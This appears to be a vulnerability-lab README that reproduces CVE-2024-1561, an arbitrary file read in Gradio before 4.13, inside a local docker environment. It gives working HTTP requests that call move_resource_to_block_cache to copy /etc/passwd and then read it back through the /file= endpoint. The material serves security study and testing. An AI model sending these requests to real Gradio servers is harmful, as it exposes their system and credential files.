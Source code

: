 # Gradio Arbitrary File Read Vulnerability (CVE-2024-1561)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that allows users to quickly build visual web interfaces for machine learning models without writing front-end code.

The `component_server` interface in Gradio versions below 4.13 allows attackers to call any method of the `Component` class, such as copying any file in the system to a temporary directory through the `move_resource_to_block_cache` method and retrieving the content.

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6884
+ https://nvd.nist.gov/vuln/detail/CVE-2024-1561

## Environment startup

Execute the following command to start an application written by Gradio 4.12.0:

```
docker compose up -d
```

After the environment is started, authentication is not enabled by default. You can access the application through `http://your-ip:7860`.

## Vulnerability Reproduction

Access the `config` interface and get the id field of a component, such as `3` here.

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101524307](1.png)

Through the `move_resource_to_block_cache` method, the `/etc/passwd` file is written to a temporary directory, and Gradio will return the path to the temporary file.

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![image-20250427101900374](2.png)

Through the `file` interface and splicing the temporary file path, you can read the file content.

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101951481](3.png)
